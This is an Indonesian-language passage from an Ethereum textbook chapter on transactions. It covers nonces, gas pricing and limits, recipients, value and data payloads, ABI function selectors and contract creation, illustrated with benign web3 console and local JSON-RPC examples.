Ada dua skenario di mana keberadaan nonce penghitung transaksi menjadi penting: fitur kegunaan dari transaksi yang dimasukkan dalam urutan pembuatan, dan fitur vital perlindungan duplikasi transaksi. Mari kita lihat skenario contoh untuk masing-masing skenario ini:

1.  Bayangkan Anda ingin melakukan dua transaksi. Anda memiliki pembayaran penting sebesar 6 ether, dan juga pembayaran lain sebesar 8 ether. Anda menandatangani dan menyiarkan transaksi 6-ether terlebih dahulu, karena itu yang lebih penting, lalu Anda menandatangani dan menyiarkan transaksi kedua, 8-ether. Sayangnya, Anda mengabaikan fakta bahwa akun Anda hanya berisi 10 ether, jadi jaringan tidak dapat menerima kedua transaksi: salah satunya akan gagal. Karena Anda mengirim yang lebih penting 6-ether terlebih dahulu, Anda tentu berharap yang itu akan berhasil dan yang 8-ether akan ditolak. Namun, dalam sistem terdesentralisasi seperti Ethereum, *node* dapat menerima transaksi dalam urutan apa pun; tidak ada jaminan bahwa *node* tertentu akan menerima satu transaksi sebelum yang lain. Dengan demikian, hampir pasti akan ada beberapa *node* yang menerima transaksi 6-ether terlebih dahulu dan yang lain menerima transaksi 8-ether terlebih dahulu. Tanpa nonce, akan acak mana yang diterima dan mana yang ditolak. Namun, dengan nonce disertakan, transaksi pertama yang Anda kirim akan memiliki nonce, katakanlah, 3, sedangkan transaksi 8-ether memiliki nilai nonce berikutnya (yaitu, 4). Jadi, transaksi itu akan diabaikan sampai transaksi dengan nonce dari 0 hingga 3 telah diproses, bahkan jika diterima lebih dulu. Fiuh\!

2.  Sekarang bayangkan Anda memiliki akun dengan 100 ether. Fantastis\! Anda menemukan seseorang secara daring yang akan menerima pembayaran dalam ether untuk *widget-mcguffin* yang sangat ingin Anda beli. Anda mengirim mereka 2 ether dan mereka mengirimi Anda *widget-mcguffin*. Bagus sekali. Untuk melakukan pembayaran 2-ether itu, Anda menandatangani transaksi yang mengirim 2 ether dari akun Anda ke akun mereka, lalu menyiarkannya ke jaringan Ethereum untuk diverifikasi dan dimasukkan ke dalam blockchain. Sekarang, tanpa nilai nonce dalam transaksi, transaksi kedua yang mengirim 2 ether ke alamat yang sama untuk kedua kalinya akan terlihat persis sama dengan transaksi pertama. Ini berarti bahwa siapa pun yang melihat transaksi Anda di jaringan Ethereum (yang berarti semua orang, termasuk penerima atau musuh Anda) dapat "memutar ulang" transaksi itu berulang kali sampai semua ether Anda habis hanya dengan menyalin dan menempel transaksi asli Anda dan mengirimkannya kembali ke jaringan. Namun, dengan nilai nonce yang disertakan dalam data transaksi, setiap transaksi menjadi unik, bahkan saat mengirim jumlah ether yang sama ke alamat penerima yang sama beberapa kali. Jadi, dengan memiliki nonce yang bertambah sebagai bagian dari transaksi, tidak mungkin bagi siapa pun untuk "menduplikasi" pembayaran yang telah Anda lakukan.

Singkatnya, penting untuk dicatat bahwa penggunaan nonce sebenarnya vital untuk protokol berbasis akun, berbeda dengan mekanisme “Unspent Transaction Output” (UTXO) dari protokol Bitcoin.

#### Melacak Nonce

Secara praktis, nonce adalah hitungan terkini dari jumlah transaksi yang telah dikonfirmasi (yaitu, *on-chain*) yang berasal dari sebuah akun. Untuk mengetahui berapa nonce saat ini, Anda dapat menanyakannya ke blockchain, misalnya melalui antarmuka web3.

Buka konsol JavaScript di browser dengan MetaMask berjalan, atau gunakan perintah `truffle console` untuk mengakses pustaka JavaScript web3, lalu ketik:

```javascript
> web3.eth.getTransactionCount("0x9e713963a92c02317a681b9bb3065a8249de124f")
40
```

> Nonce adalah penghitung berbasis nol, artinya transaksi pertama memiliki nonce 0. Dalam contoh ini, kita memiliki jumlah transaksi 40, yang berarti nonce 0 hingga 39 telah terlihat. Nonce transaksi berikutnya harus 40.

Dompet Anda akan melacak nonce untuk setiap alamat yang dikelolanya. Cukup sederhana untuk melakukannya, selama Anda hanya memulai transaksi dari satu titik. Katakanlah Anda sedang menulis perangkat lunak dompet Anda sendiri atau aplikasi lain yang memulai transaksi. Bagaimana Anda melacak nonce?

Saat Anda membuat transaksi baru, Anda menetapkan nonce berikutnya dalam urutan. Tetapi sampai transaksi itu dikonfirmasi, itu tidak akan dihitung dalam total `getTransactionCount`.

> Berhati-hatilah saat menggunakan fungsi `getTransactionCount` untuk menghitung transaksi yang tertunda (*pending*), karena Anda mungkin mengalami beberapa masalah jika Anda mengirim beberapa transaksi secara berurutan.

Mari kita lihat sebuah contoh:

```javascript
> web3.eth.getTransactionCount("0x9e713963a92c02317a681b9bb3065a8249de124f", "pending")
40
> web3.eth.sendTransaction({from: web3.eth.accounts[0], to: "0xB0920c523d582040f2BCB1bD7FB1c7C1ECEbdB34", value: web3.toWei(0.01, "ether")});
> web3.eth.getTransactionCount("0x9e713963a92c02317a681b9bb3065a8249de124f", "pending")
41
> web3.eth.sendTransaction({from: web3.eth.accounts[0], to: "0xB0920c523d582040f2BCB1bD7FB1c7C1ECEbdB34", value: web3.toWei(0.01, "ether")});
> web3.eth.getTransactionCount("0x9e713963a92c02317a681b9bb3065a8249de124f", "pending")
41
> web3.eth.sendTransaction({from: web3.eth.accounts[0], to: "0xB0920c523d582040f2BCB1bD7FB1c7C1ECEbdB34", value: web3.toWei(0.01, "ether")});
> web3.eth.getTransactionCount("0x9e713963a92c02317a681b9bb3065a8249de124f", "pending")
41
```

Seperti yang Anda lihat, transaksi pertama yang kami kirim meningkatkan jumlah transaksi menjadi 41, menunjukkan transaksi yang tertunda. Tetapi ketika kami mengirim tiga transaksi lagi secara berurutan, panggilan `getTransactionCount` tidak menghitungnya. Itu hanya menghitung satu, meskipun Anda mungkin berharap ada tiga yang tertunda di *mempool*. Jika kita menunggu beberapa detik agar komunikasi jaringan stabil, panggilan `getTransactionCount` akan mengembalikan angka yang diharapkan. Tetapi sementara itu, ketika ada lebih dari satu transaksi yang tertunda, itu mungkin tidak membantu kita.

Ketika Anda membangun aplikasi yang membuat transaksi, ia tidak dapat mengandalkan `getTransactionCount` untuk transaksi yang tertunda. Hanya ketika jumlah transaksi tertunda dan terkonfirmasi sama (semua transaksi yang beredar telah dikonfirmasi), Anda dapat mempercayai output `getTransactionCount` untuk memulai penghitung nonce Anda. Setelah itu, lacak nonce di aplikasi Anda sampai setiap transaksi dikonfirmasi.

Antarmuka JSON RPC Parity menawarkan fungsi `parity_nextNonce`, yang mengembalikan nonce berikutnya yang harus digunakan dalam sebuah transaksi. Fungsi `parity_nextNonce` menghitung nonce dengan benar, bahkan jika Anda membuat beberapa transaksi secara berurutan tanpa mengonfirmasinya:

```bash
$ curl --data '{"method":"parity_nextNonce", \
"params":["0x9e713963a92c02317a681b9bb3065a8249de124f"],\
"id":1,"jsonrpc":"2.0"}' -H "Content-Type: application/json" -X POST \
localhost:8545
{"jsonrpc":"2.0","result":"0x32","id":1}
```

> Parity memiliki konsol web untuk mengakses antarmuka JSON RPC, tetapi di sini kami menggunakan klien HTTP baris perintah untuk mengaksesnya.

#### Kesenjangan Nonce, Nonce Duplikat, dan Konfirmasi

Penting untuk melacak nonce jika Anda membuat transaksi secara terprogram, terutama jika Anda melakukannya dari beberapa proses independen secara bersamaan.

Jaringan Ethereum memproses transaksi secara berurutan, berdasarkan nonce. Itu berarti jika Anda mengirimkan transaksi dengan nonce 0 dan kemudian mengirimkan transaksi dengan nonce 2, transaksi kedua tidak akan dimasukkan ke dalam blok mana pun. Ia akan disimpan di *mempool*, sementara jaringan Ethereum menunggu nonce yang hilang muncul. Semua *node* akan berasumsi bahwa nonce yang hilang hanya tertunda dan transaksi dengan nonce 2 diterima di luar urutan.

Jika Anda kemudian mengirimkan transaksi dengan nonce yang hilang yaitu 1, kedua transaksi (nonce 1 dan 2) akan diproses dan dimasukkan (jika valid, tentu saja). Setelah Anda mengisi celah tersebut, jaringan dapat menambang transaksi di luar urutan yang disimpannya di *mempool*.

Artinya, jika Anda membuat beberapa transaksi secara berurutan dan salah satunya tidak secara resmi dimasukkan ke dalam blok mana pun, semua transaksi berikutnya akan "terjebak", menunggu nonce yang hilang. Sebuah transaksi dapat menciptakan "celah" yang tidak disengaja dalam urutan nonce karena tidak valid atau memiliki gas yang tidak mencukupi. Untuk membuat semuanya bergerak lagi, Anda harus mengirimkan transaksi yang valid dengan nonce yang hilang. Anda juga harus ingat bahwa setelah transaksi dengan nonce yang "hilang" divalidasi oleh jaringan, semua transaksi yang disiarkan dengan nonce berikutnya akan secara bertahap menjadi valid; tidak mungkin untuk "menarik kembali" sebuah transaksi\!

Jika, di sisi lain, Anda secara tidak sengaja menduplikasi nonce, misalnya dengan mengirimkan dua transaksi dengan nonce yang sama tetapi penerima atau nilai yang berbeda, maka salah satunya akan dikonfirmasi dan salah satunya akan ditolak. Mana yang dikonfirmasi akan ditentukan oleh urutan kedatangan mereka di *node* validasi pertama yang menerimanya—yaitu, akan cukup acak.

Seperti yang Anda lihat, melacak nonce adalah perlu, dan jika aplikasi Anda tidak mengelola proses itu dengan benar, Anda akan mengalami masalah. Sayangnya, segalanya menjadi lebih sulit jika Anda mencoba melakukan ini secara bersamaan, seperti yang akan kita lihat di bagian berikutnya.

#### Konkurensi, Pembuatan Transaksi, dan Nonce

Konkurensi adalah aspek kompleks dalam ilmu komputer, dan terkadang muncul secara tak terduga, terutama dalam sistem waktu-nyata yang terdesentralisasi dan terdistribusi seperti Ethereum.

Secara sederhana, konkurensi adalah ketika Anda memiliki komputasi simultan oleh beberapa sistem independen. Ini bisa terjadi dalam program yang sama (mis., *multithreading*), pada CPU yang sama (mis., *multiprocessing*), atau di komputer yang berbeda (yaitu, sistem terdistribusi). Ethereum, menurut definisinya, adalah sistem yang memungkinkan konkurensi operasi (*node*, klien, DApps) tetapi memberlakukan keadaan tunggal melalui konsensus.

Sekarang, bayangkan Anda memiliki beberapa aplikasi dompet independen yang menghasilkan transaksi dari alamat atau alamat yang sama. Salah satu contoh situasi seperti itu adalah bursa yang memproses penarikan dari *hot wallet* bursa (dompet yang kuncinya disimpan secara daring, berbeda dengan *cold wallet* di mana kuncinya tidak pernah daring). Idealnya, Anda ingin memiliki lebih dari satu komputer yang memproses penarikan, sehingga tidak menjadi hambatan atau satu titik kegagalan. Namun, ini dengan cepat menjadi masalah, karena memiliki lebih dari satu komputer yang menghasilkan penarikan akan menghasilkan beberapa masalah konkurensi yang rumit, salah satunya adalah pemilihan nonce. Bagaimana beberapa komputer yang menghasilkan, menandatangani, dan menyiarkan transaksi dari akun *hot wallet* yang sama berkoordinasi?

Anda bisa menggunakan satu komputer untuk menetapkan nonce, berdasarkan *first-come first-served*, ke komputer yang menandatangani transaksi. Namun, komputer ini sekarang menjadi satu titik kegagalan. Lebih buruk lagi, jika beberapa nonce ditetapkan dan salah satunya tidak pernah digunakan (karena kegagalan di komputer yang memproses transaksi dengan nonce itu), semua transaksi berikutnya menjadi macet.

Pendekatan lain adalah dengan menghasilkan transaksi, tetapi tidak menetapkan nonce padanya (dan karena itu membiarkannya tidak ditandatangani—ingat bahwa nonce adalah bagian integral dari data transaksi dan oleh karena itu perlu dimasukkan dalam tanda tangan digital yang mengotentikasi transaksi). Anda kemudian bisa mengantrekannya ke satu *node* yang menandatanganinya dan juga melacak nonce. Sekali lagi, ini akan menjadi titik hambat dalam proses: penandatanganan dan pelacakan nonce adalah bagian dari operasi Anda yang kemungkinan akan menjadi padat di bawah beban, sedangkan pembuatan transaksi yang tidak ditandatangani adalah bagian yang tidak terlalu perlu Anda paralelisasi. Anda akan memiliki beberapa konkurensi, tetapi akan kurang di bagian kritis dari proses tersebut.

Pada akhirnya, masalah konkurensi ini, di atas kesulitan melacak saldo akun dan konfirmasi transaksi dalam proses independen, memaksa sebagian besar implementasi untuk menghindari konkurensi dan menciptakan hambatan seperti proses tunggal yang menangani semua transaksi penarikan di bursa, atau menyiapkan beberapa *hot wallet* yang dapat bekerja sepenuhnya secara independen untuk penarikan dan hanya perlu diseimbangkan kembali secara berkala.

### Gas Transaksi

Kami telah membahas sedikit tentang gas di bab-bab sebelumnya, dan kami akan membahasnya lebih detail di “Gas” di halaman 314. Namun, mari kita bahas beberapa dasar tentang peran komponen `gasPrice` dan `gasLimit` dari sebuah transaksi.

Gas adalah bahan bakar Ethereum. Gas bukan ether—ini adalah mata uang virtual terpisah dengan nilai tukarnya sendiri terhadap ether. Ethereum menggunakan gas untuk mengontrol jumlah sumber daya yang dapat digunakan oleh sebuah transaksi, karena akan diproses di ribuan komputer di seluruh dunia. Model komputasi yang terbuka (*Turing-complete*) memerlukan beberapa bentuk pengukuran untuk menghindari serangan *denial-of-service* atau transaksi yang secara tidak sengaja menghabiskan sumber daya.

Gas terpisah dari ether untuk melindungi sistem dari volatilitas yang mungkin timbul seiring dengan perubahan cepat nilai ether, dan juga sebagai cara untuk mengelola rasio penting dan sensitif antara biaya berbagai sumber daya yang dibayar oleh gas (yaitu, komputasi, memori, dan penyimpanan).

Bidang `gasPrice` dalam sebuah transaksi memungkinkan pengirim transaksi untuk menetapkan harga yang bersedia mereka bayar sebagai ganti gas. Harga diukur dalam wei per unit gas. Misalnya, dalam contoh transaksi di Bab 2, dompet Anda menetapkan `gasPrice` menjadi 3 gwei (3 gigawei atau 3 miliar wei).

> Situs populer **ETH Gas Station** menyediakan informasi tentang harga gas saat ini dan metrik gas relevan lainnya untuk jaringan utama Ethereum.

Dompet dapat menyesuaikan `gasPrice` dalam transaksi yang mereka mulai untuk mencapai konfirmasi transaksi yang lebih cepat. Semakin tinggi `gasPrice`, semakin cepat transaksi kemungkinan akan dikonfirmasi. Sebaliknya, transaksi dengan prioritas lebih rendah dapat membawa harga yang lebih rendah, menghasilkan konfirmasi yang lebih lambat. Nilai minimum yang dapat diatur untuk `gasPrice` adalah nol, yang berarti transaksi bebas biaya. Selama periode permintaan ruang di blok rendah, transaksi semacam itu mungkin saja akan ditambang.

> `gasPrice` minimum yang dapat diterima adalah nol. Itu berarti dompet dapat menghasilkan transaksi yang sepenuhnya gratis. Tergantung pada kapasitas, ini mungkin tidak pernah dikonfirmasi, tetapi tidak ada dalam protokol yang melarang transaksi gratis. Anda dapat menemukan beberapa contoh transaksi semacam itu yang berhasil dimasukkan ke dalam blockchain Ethereum.

Antarmuka web3 menawarkan saran `gasPrice`, dengan menghitung harga median di beberapa blok (kita bisa menggunakan konsol truffle atau konsol web3 JavaScript mana pun untuk melakukannya):

```javascript
> web3.eth.getGasPrice(console.log)
> null BigNumber { s: 1, e: 10, c: [ 10000000000 ] }
```

Bidang penting kedua yang terkait dengan gas adalah `gasLimit`. Secara sederhana, `gasLimit` memberikan jumlah maksimum unit gas yang bersedia dibeli oleh pengirim transaksi untuk menyelesaikan transaksi tersebut. Untuk pembayaran sederhana, yaitu transaksi yang mentransfer ether dari satu EOA ke EOA lain, jumlah gas yang dibutuhkan ditetapkan sebesar **21.000 unit gas**. Untuk menghitung berapa biaya ether yang akan dikeluarkan, Anda mengalikan 21.000 dengan `gasPrice` yang bersedia Anda bayar. Contohnya:

```javascript
> web3.eth.getGasPrice(function(err, res) {console.log(res*21000)} )
> 210000000000000
```

Jika alamat tujuan transaksi Anda adalah sebuah kontrak, maka jumlah gas yang dibutuhkan dapat diperkirakan tetapi tidak dapat ditentukan dengan akurat. Itu karena sebuah kontrak dapat mengevaluasi kondisi yang berbeda yang mengarah ke jalur eksekusi yang berbeda, dengan total biaya gas yang berbeda. Kontrak mungkin hanya mengeksekusi komputasi sederhana atau yang lebih kompleks, tergantung pada kondisi yang berada di luar kendali Anda dan tidak dapat diprediksi. Untuk mendemonstrasikan ini, mari kita lihat sebuah contoh: kita bisa menulis kontrak pintar yang menaikkan penghitung setiap kali dipanggil dan menjalankan *loop* tertentu sejumlah kali sama dengan jumlah panggilan. Mungkin pada panggilan ke-100 ia memberikan hadiah khusus, seperti lotre, tetapi perlu melakukan komputasi tambahan untuk menghitung hadiah. Jika Anda memanggil kontrak 99 kali, satu hal terjadi, tetapi pada panggilan ke-100, sesuatu yang sangat berbeda terjadi. Jumlah gas yang akan Anda bayar tergantung pada berapa banyak transaksi lain yang telah memanggil fungsi itu sebelum transaksi Anda dimasukkan ke dalam blok. Mungkin perkiraan Anda didasarkan pada menjadi transaksi ke-99, tetapi tepat sebelum transaksi Anda dikonfirmasi, orang lain memanggil kontrak untuk ke-99 kalinya. Sekarang Anda adalah transaksi ke-100 yang memanggil, dan upaya komputasi (dan biaya gas) jauh lebih tinggi.

Meminjam analogi umum yang digunakan di Ethereum, Anda dapat menganggap `gasLimit` sebagai kapasitas tangki bahan bakar di mobil Anda (mobil Anda adalah transaksi). Anda mengisi tangki dengan bahan bakar sebanyak yang Anda pikir akan dibutuhkan untuk perjalanan (komputasi yang diperlukan untuk memvalidasi transaksi Anda). Anda dapat memperkirakan jumlahnya sampai batas tertentu, tetapi mungkin ada perubahan tak terduga pada perjalanan Anda, seperti pengalihan (jalur eksekusi yang lebih kompleks), yang meningkatkan konsumsi bahan bakar.

Namun, analogi dengan tangki bahan bakar agak menyesatkan. Sebenarnya lebih seperti akun kredit untuk perusahaan pom bensin, di mana Anda membayar setelah perjalanan selesai, berdasarkan berapa banyak gas yang sebenarnya Anda gunakan. Saat Anda mengirimkan transaksi Anda, salah satu langkah validasi pertama adalah memeriksa bahwa akun asalnya memiliki cukup ether untuk membayar biaya `gasPrice * gasLimit`. Tetapi jumlahnya tidak benar-benar dikurangi dari akun Anda sampai transaksi selesai dieksekusi. Anda hanya ditagih untuk gas yang benar-benar dikonsumsi oleh transaksi Anda, tetapi Anda harus memiliki saldo yang cukup untuk jumlah maksimum yang bersedia Anda bayar sebelum Anda mengirim transaksi Anda.

### Penerima Transaksi

Penerima transaksi ditentukan dalam bidang `to`. Bidang ini berisi alamat Ethereum 20-byte. Alamat tersebut bisa berupa EOA atau alamat kontrak.

Ethereum tidak melakukan validasi lebih lanjut pada bidang ini. Nilai 20-byte apa pun dianggap valid. Jika nilai 20-byte sesuai dengan alamat tanpa kunci privat yang sesuai, atau tanpa kontrak yang sesuai, transaksi tersebut tetap valid. Ethereum tidak memiliki cara untuk mengetahui apakah sebuah alamat diturunkan dengan benar dari kunci publik (dan karena itu dari kunci privat) yang ada.

> Protokol Ethereum tidak memvalidasi alamat penerima dalam transaksi. Anda dapat mengirim ke alamat yang tidak memiliki kunci privat atau kontrak yang sesuai, dengan demikian "membakar" (*burning*) ether tersebut, membuatnya tidak dapat dibelanjakan selamanya. Validasi harus dilakukan di tingkat antarmuka pengguna.

Mengirim transaksi ke alamat yang salah kemungkinan besar akan membakar ether yang dikirim, membuatnya tidak dapat diakses selamanya (tidak dapat dibelanjakan), karena sebagian besar alamat tidak memiliki kunci privat yang diketahui dan oleh karena itu tidak ada tanda tangan yang dapat dihasilkan untuk membelanjakannya. Diasumsikan bahwa validasi alamat terjadi di tingkat antarmuka pengguna (lihat “Pengkodean Hex dengan Checksum dalam Kapitalisasi (EIP-55)” di halaman 76). Faktanya, ada sejumlah alasan yang valid untuk membakar ether—misalnya, sebagai disinsentif untuk berbuat curang di *payment channel* dan kontrak pintar lainnya—dan karena jumlah ether terbatas, membakar ether secara efektif mendistribusikan nilai yang dibakar ke semua pemegang ether (sebanding dengan jumlah ether yang mereka pegang).

### Nilai dan Data Transaksi

"Muatan" utama dari sebuah transaksi terkandung dalam dua bidang: `value` (nilai) dan `data`. Transaksi dapat memiliki keduanya, hanya nilai, hanya data, atau tidak keduanya. Keempat kombinasi tersebut valid.

Sebuah transaksi yang hanya memiliki **nilai** adalah **pembayaran**. Sebuah transaksi yang hanya memiliki **data** adalah **pemanggilan (invocation)**. Sebuah transaksi yang memiliki **keduanya** adalah **pembayaran sekaligus pemanggilan**. Sebuah transaksi yang tidak memiliki **keduanya**—yah itu mungkin hanya pemborosan gas\! Tetapi itu tetap mungkin dilakukan.

Mari kita coba semua kombinasi ini. Pertama, kita akan mengatur alamat sumber dan tujuan dari dompet kita, agar demo lebih mudah dibaca:

```javascript
src = web3.eth.accounts[0];
dst = web3.eth.accounts[1];
```

Transaksi pertama kita hanya berisi nilai (pembayaran), dan tidak ada muatan data:

```javascript
web3.eth.sendTransaction({from: src, to: dst, value: web3.toWei(0.01, "ether"), data: ""});
```

Dompet kita menampilkan layar konfirmasi yang menunjukkan nilai yang akan dikirim, seperti yang ditunjukkan pada Gambar 6-1.

<p align="center">
  
</p>

Contoh berikutnya menentukan baik nilai maupun muatan data:

```javascript
web3.eth.sendTransaction({from: src, to: dst, value: web.toWei(0.01, "ether"), data: "0x1234"});
```

Dompet kita menampilkan layar konfirmasi yang menunjukkan nilai yang akan dikirim serta muatan datanya, seperti yang ditunjukkan pada Gambar 6-2.

<p align="center">
  
</p>

Transaksi berikutnya menyertakan muatan data tetapi menentukan nilai nol:

```javascript
web3.eth.sendTransaction({from: src, to: dst, value: 0, data: "0x1234"});
```

Dompet kita menampilkan layar konfirmasi yang menunjukkan nilai nol dan muatan data, seperti yang ditunjukkan pada Gambar 6-3.

<p align="center">
  
</p>

Terakhir, transaksi terakhir tidak menyertakan nilai untuk dikirim maupun muatan data:

```javascript
web3.eth.sendTransaction({from: src, to: dst, value: 0, data: ""});
```

Dompet kita menampilkan layar konfirmasi yang menunjukkan nilai nol, seperti yang ditunjukkan pada Gambar 6-4.

<p align="center">
  
</p>

### Mengirim Nilai ke EOA dan Kontrak

Ketika Anda membuat transaksi Ethereum yang berisi nilai (*value*), itu setara dengan sebuah pembayaran. Transaksi semacam itu berperilaku berbeda tergantung pada apakah alamat tujuannya adalah sebuah kontrak atau bukan.

Untuk alamat **EOA**, atau lebih tepatnya untuk alamat mana pun yang tidak ditandai sebagai kontrak di blockchain, Ethereum akan mencatat perubahan keadaan (*state change*), menambahkan nilai yang Anda kirim ke saldo alamat tersebut. Jika alamat tersebut belum pernah terlihat sebelumnya, ia akan ditambahkan ke representasi internal klien dari keadaan dan saldonya akan diinisialisasi dengan nilai pembayaran Anda.

Jika alamat tujuan (`to`) adalah sebuah **kontrak**, maka EVM akan mengeksekusi kontrak tersebut dan akan mencoba memanggil fungsi yang disebutkan dalam muatan data (*data payload*) transaksi Anda. Jika tidak ada data dalam transaksi Anda, EVM akan memanggil **fungsi fallback** dan, jika fungsi tersebut bersifat **payable**, akan mengeksekusinya untuk menentukan apa yang harus dilakukan selanjutnya. Jika tidak ada fungsi fallback, maka efek dari transaksi tersebut adalah meningkatkan saldo kontrak, persis seperti pembayaran ke sebuah dompet.

Sebuah kontrak dapat menolak pembayaran yang masuk dengan melemparkan pengecualian (*throwing an exception*) segera setelah sebuah fungsi dipanggil, atau sebagaimana ditentukan oleh kondisi yang dikodekan dalam sebuah fungsi. Jika fungsi berakhir dengan sukses (tanpa pengecualian), maka keadaan kontrak diperbarui untuk mencerminkan peningkatan saldo ether kontrak.

### Mengirim Muatan Data ke EOA atau Kontrak

Ketika transaksi Anda berisi data, kemungkinan besar transaksi itu ditujukan ke alamat kontrak. Itu tidak berarti Anda tidak dapat mengirim muatan data ke EOA—itu sepenuhnya valid dalam protokol Ethereum. Namun, dalam kasus itu, interpretasi data terserah pada dompet yang Anda gunakan untuk mengakses EOA tersebut. Hal ini **diabaikan oleh protokol Ethereum**. Sebagian besar dompet juga mengabaikan data apa pun yang diterima dalam transaksi ke EOA yang mereka kontrol. Di masa depan, mungkin saja standar akan muncul yang memungkinkan dompet untuk menginterpretasikan data seperti yang dilakukan kontrak, sehingga memungkinkan transaksi untuk memanggil fungsi yang berjalan di dalam dompet pengguna. Perbedaan kritisnya adalah bahwa setiap interpretasi muatan data oleh EOA **tidak tunduk pada aturan konsensus Ethereum**, tidak seperti eksekusi kontrak.

Untuk saat ini, mari kita asumsikan transaksi Anda mengirimkan data ke alamat kontrak. Dalam kasus itu, data akan diinterpretasikan oleh EVM sebagai pemanggilan kontrak (*contract invocation*). Sebagian besar kontrak menggunakan data ini secara lebih spesifik sebagai **pemanggilan fungsi (*function invocation*)**, memanggil fungsi yang disebutkan dan meneruskan argumen yang dikodekan ke fungsi tersebut.

Muatan data yang dikirim ke kontrak yang kompatibel dengan ABI (yang dapat Anda asumsikan dimiliki oleh semua kontrak) adalah pengkodean heksadesimal dari:

  * **Selektor fungsi (*Function selector*)**
    4 byte pertama dari hash Keccak-256 dari prototipe fungsi. Ini memungkinkan kontrak untuk secara tidak ambigu mengidentifikasi fungsi mana yang ingin Anda panggil.
  * **Argumen fungsi (*The function arguments*)**
    Argumen fungsi, yang dikodekan sesuai dengan aturan untuk berbagai tipe dasar yang didefinisikan dalam spesifikasi ABI.

Dalam Contoh 2-1, kami mendefinisikan sebuah fungsi untuk penarikan:

```solidity
function withdraw(uint withdraw_amount) public {
```

**Prototipe** sebuah fungsi didefinisikan sebagai string yang berisi nama fungsi, diikuti oleh tipe data dari setiap argumennya, diapit dalam tanda kurung dan dipisahkan oleh koma. Nama fungsinya di sini adalah `withdraw` dan ia mengambil satu argumen yaitu `uint` (yang merupakan alias untuk `uint256`), jadi prototipe dari `withdraw` adalah:
`withdraw(uint256)`

Mari kita hitung hash Keccak-256 dari string ini:

```javascript
> web3.sha3("withdraw(uint256)");
'0x2e1a7d4d13322e7b96f9a57413e1525c250fb7a9021cf91d1540d5b69f16a49f'
```

**4 byte pertama** dari hash adalah `0x2e1a7d4d`. Itulah nilai "selektor fungsi" kita, yang akan memberi tahu kontrak fungsi mana yang ingin kita panggil.

Selanjutnya, mari kita hitung nilai untuk diteruskan sebagai argumen `withdraw_amount`. Kita ingin menarik 0,01 ether. Mari kita kodekan itu menjadi integer 256-bit tak bertanda *big-endian* yang diserialisasi dalam heksadesimal, dalam denominasi wei:

```javascript
> withdraw_amount = web3.toWei(0.01, "ether");
'10000000000000000'
> withdraw_amount_hex = web3.toHex(withdraw_amount);
'0x2386f26fc10000'
```

Sekarang, kita tambahkan selektor fungsi ke jumlah tersebut (di-padding hingga 32 byte):
`2e1a7d4d000000000000000000000000000000000000000000000000002386f26fc10000`

Itulah muatan data untuk transaksi kita, memanggil fungsi `withdraw` dan meminta 0,01 ether sebagai `withdraw_amount`.

### Transaksi Khusus: Pembuatan Kontrak

Satu kasus khusus yang harus kita sebutkan adalah transaksi yang membuat kontrak baru di blockchain, menyebarkannya untuk penggunaan di masa depan. Transaksi pembuatan kontrak dikirim ke alamat tujuan khusus yang disebut **alamat nol (*zero address*)**; bidang `to` dalam transaksi pendaftaran kontrak berisi alamat `0x0`. Alamat ini tidak mewakili EOA (tidak ada pasangan kunci privat-publik yang sesuai) maupun kontrak. Alamat ini tidak akan pernah bisa membelanjakan ether atau memulai transaksi. Ia hanya digunakan sebagai tujuan, dengan makna khusus "buat kontrak ini."

Meskipun alamat nol hanya ditujukan untuk pembuatan kontrak, terkadang ia menerima pembayaran dari berbagai alamat. Ada dua penjelasan untuk ini: entah karena kecelakaan, yang mengakibatkan hilangnya ether, atau itu adalah **pembakaran ether (*ether burn*)** yang disengaja (sengaja menghancurkan ether dengan mengirimkannya ke alamat dari mana ia tidak akan pernah bisa dibelanjakan). Namun, jika Anda ingin melakukan pembakaran ether yang disengaja, Anda harus menjelaskan niat Anda ke jaringan dan menggunakan alamat bakar yang ditunjuk secara khusus:
`0x000000000000000000000000000000000000dEaD`

> Ether apa pun yang dikirim ke alamat bakar yang ditunjuk akan menjadi tidak dapat dibelanjakan dan hilang selamanya.

Transaksi pembuatan kontrak hanya perlu berisi muatan data yang berisi *bytecode* terkompilasi yang akan membuat kontrak. Satu-satunya efek dari transaksi ini adalah untuk membuat kontrak. Anda dapat menyertakan jumlah ether di bidang `value` jika Anda ingin mengatur kontrak baru dengan saldo awal, tetapi itu sepenuhnya opsional. Jika Anda mengirim nilai (ether) ke alamat pembuatan kontrak tanpa muatan data (tanpa kontrak), maka efeknya sama dengan mengirim ke alamat bakar—tidak ada kontrak untuk dikreditkan, jadi ether tersebut hilang.

Sebagai contoh, kita dapat membuat kontrak `Faucet.sol` yang digunakan di Bab 2 dengan secara manual membuat transaksi ke alamat nol dengan kontrak di muatan data. Kontrak perlu dikompilasi menjadi representasi *bytecode*. Ini dapat dilakukan dengan kompiler Solidity:

```bash
$ solc --bin Faucet.sol

Binary:
6060604052341561000f57600080fd5b60e58061001d6000396000f30060606040526004361060...
```

Informasi yang sama juga dapat diperoleh dari kompiler daring Remix.

Sekarang kita dapat membuat transaksinya:

```javascript
> src = web3.eth.accounts[0];
> faucet_code = "0x6060604052341561000f57600080fd5b60e58061001d6000396000f300606...f0029";
> web3.eth.sendTransaction({from: src, to: 0, data: faucet_code, gas: 113558, gasPrice: 200000000000});
